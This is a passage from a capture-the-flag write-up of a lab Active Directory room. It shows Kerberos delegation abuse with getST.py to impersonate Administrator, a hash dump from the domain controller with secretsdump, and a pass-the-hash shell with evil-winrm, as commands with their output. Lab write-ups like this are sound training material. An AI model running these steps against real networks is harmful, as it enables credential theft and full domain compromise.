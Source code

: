 Now, we can use `getST.py` to request a **TGS**, impersonating the `Administrator` user as `ATTACKERSYSTEM` for the `CIFS/K2ROOTDC.K2.THM` service.

```console
$ getST.py -spn 'cifs/k2rootdc.k2.thm' -impersonate 'Administrator' 'K2.THM/attackersystem$:Summer2018!'

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

We will set the ticket using the `KRB5CCNAME` variable.

```
$ export KRB5CCNAME=Administrator.ccache
```

Finally, we can use `secretsdump` with the obtained ticket to dump the hashes from the DC.

```console
$ secretsdump.py -k -no-pass 'K2.THM/Administrator@k2rootdc.k2.thm'
...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ec[REDACTED]4b90:::
...
```

### Shell as Administrator

Using the hash we retrieved for the local **Administrator** with `evil-winrm`, we can obtain a shell and read the root flag located at `C:\Users\Administrator\Desktop\root.txt` to complete the room.

```console
$ evil-winrm -i k2rootdc.k2.thm -u 'Administrator' -H 15ec[REDACTED]4b90

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
k2\administrator
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>